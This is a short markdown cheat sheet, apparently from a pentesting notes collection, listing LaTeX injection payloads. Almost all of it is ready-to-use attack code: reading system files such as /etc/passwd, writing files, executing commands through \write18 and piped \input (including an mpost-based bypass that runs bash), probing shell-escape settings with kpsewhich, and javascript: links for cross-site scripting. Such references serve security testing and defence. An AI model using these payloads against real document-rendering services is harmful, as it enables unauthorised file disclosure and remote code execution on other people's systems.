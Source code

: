 # Basics

>[!INFO] What is LaTex ?
> LaTeX is a document preparation system used for designing the structure of the document or working with the mathematical expressions and is stored as a image to be displayed or in pdf format. It can be vulnerable to arbitrary command injection or path traversal.

# Exploit

## Read files

```bash
\input{/etc/passwd}
\include{somefile} # load .tex file (somefile.tex)
\lstinputlisting{/etc/passwd}

# raw files
\usepackage{verbatim}
\verbatiminput{/etc/passwd}
```

## Write file

```bash
\newwrite\outfile
\openout\outfile=cmd.tex
\write\outfile{Hello-world}
\closeout\outfile
```

## Command execution

```bash
\immediate\write18{env > output}
\input{output}

\input{|"/bin/hostname"}
\input{|"extractbb /etc/passwd > /tmp/b.tex"}

# allowed mpost command RCE
\documentclass{article}\begin{document}
\immediate\write18{mpost -ini "-tex=bash -c (id;uname${IFS}-sm)>/tmp/pwn" "x.mp"}
\end{document}

# If mpost is not allowed there are other commands you might be able to execute
## Just get the version
\input{|"bibtex8 --version > /tmp/b.tex"}
## Search the file pdfetex.ini
\input{|"kpsewhich pdfetex.ini > /tmp/b.tex"}
## Get env var value
\input{|"kpsewhich -expand-var=$HOSTNAME > /tmp/b.tex"}
## Get the value of shell_escape_commands without needing to read pdfetex.ini
\input{|"kpsewhich --var-value=shell_escape_commands > /tmp/b.tex"}

# if errors : encode base64
```

## Cross-Site Scripting

```bash
\url{javascript:alert(1)}
\href{javascript:alert(1)}{placeholder}
```

# Resources

https://0day.work/hacking-with-latex/
